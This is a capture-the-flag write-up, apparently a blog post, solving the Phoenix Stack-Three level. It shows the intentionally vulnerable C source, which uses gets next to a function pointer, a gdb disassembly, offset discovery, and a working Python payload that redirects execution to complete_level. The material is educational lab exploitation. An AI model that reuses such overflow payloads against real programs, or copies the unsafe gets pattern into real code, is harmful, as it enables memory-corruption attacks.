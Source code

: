 ```yaml
---
title: Phoenix Stack-Three
author: Marius Kimmina
date: 2019-10-27 14:10:00 +0800
categories: [CTF, Binary Exploitation]
tags: [Buffer Overflow]
published: true
---
```


### 0x0. Introduction
For a full introduction to this series and setup description please look at the first post (Phoenix Stack-Zero and One).
In this level we have to use yet another buffer-overflow change the Function-pointer to call a specific function. This is 
still a very basic level but it gives an introduction to the more complex capabilities of buffer-overflows.

### 0x1. Taking a look at the source code

```c
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

void complete_level() {
  printf("Congratulations, you've finished " LEVELNAME " :-) Well done!\n");
  exit(0);
}

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int (*fp)();
  } locals;

  printf("%s\n", BANNER);

  locals.fp = NULL;
  gets(locals.buffer);

  if (locals.fp) {
    printf("calling function pointer @ %p\n", locals.fp);
    fflush(stdout);
    locals.fp();
  } else {
    printf("function pointer remains unmodified :~( better luck next time!\n");
  }

  exit(0);
}
```

Our goal here is to execute the function "complete_level()". The function pointer gets set to "NULL" and then it is our old friend "gets" again.
In case you have not read the last Posts on this series, gets is a very old c function that should never be used since it doesn't implement any 
security checks whatsoever. There are better alternatives nowadays like "fgets".

```c
locals.fp = NULL;
gets(locals.buffer)
```


### 0x2 Exploiting the program

The first thing we need is the address of "complete_level()". Since we know the name of the function we can just disassemble it and thus get its address:

```
(gdb) disassemble complete_level 
Dump of assembler code for function complete_level:
   0x000000000040069d <+0>:	push   rbp
   0x000000000040069e <+1>:	mov    rbp,rsp
   0x00000000004006a1 <+4>:	mov    edi,0x400790
   0x00000000004006a6 <+9>:	call   0x4004f0 <puts@plt>
   0x00000000004006ab <+14>:	mov    edi,0x0
   0x00000000004006b0 <+19>:	call   0x400510 <exit@plt>
End of assembler dump.
```

So now we know that we need to write "0x000000000040069d" to the function pointer, or "40069d" since leading zeros don't matter.  
Then we need, yet again, to craft some input that will tell us when exactly we start to write into the function_pointer. As always im going to use the alphabet for that.

```
Welcome to phoenix/stack-three, brought to you by https://exploit.education
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZ
calling function pointer @ 0x5252525251515151

Program received signal SIGSEGV, Segmentation fault.
0x5252525251515151 in ?? ()
```

Now we know that we will write into the function pointer at Q and R (because 0x52 corresponds to R and 0x51 corresponds to Q).
The easiest way that I know to input the correct function address is to simply decode it with python.

```
user@phoenix-amd64:~$ python -c 'print "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPP" + ("9d06400000000000").decode("hex")' |  /opt/phoenix/amd64/stack-three
Welcome to phoenix/stack-three, brought to you by https://exploit.education
calling function pointer @ 0x40069d
Congratulations, you've finished phoenix/stack-three :-) Well done!
```

Keep in Mind that you have to use 9d06400000000000 and not 000000000040069d because phoenix is little endian, which means we read byte-by-byte from right to left.
